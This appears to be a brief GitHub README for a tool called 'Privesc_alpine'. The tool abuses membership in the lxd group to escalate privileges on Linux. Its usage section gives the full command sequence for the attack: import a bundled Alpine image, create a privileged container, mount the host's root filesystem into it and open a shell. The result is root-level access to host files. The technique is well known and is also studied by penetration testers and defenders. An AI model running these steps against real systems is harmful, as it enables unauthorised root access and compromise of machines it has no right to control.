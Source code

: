 # Privesc_alpine
This alpine for linux privesc. Its works when the user is part of lxd group.

# Usage:
```
unzip alpine.zip
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
lxc exec r00t /bin/sh
```
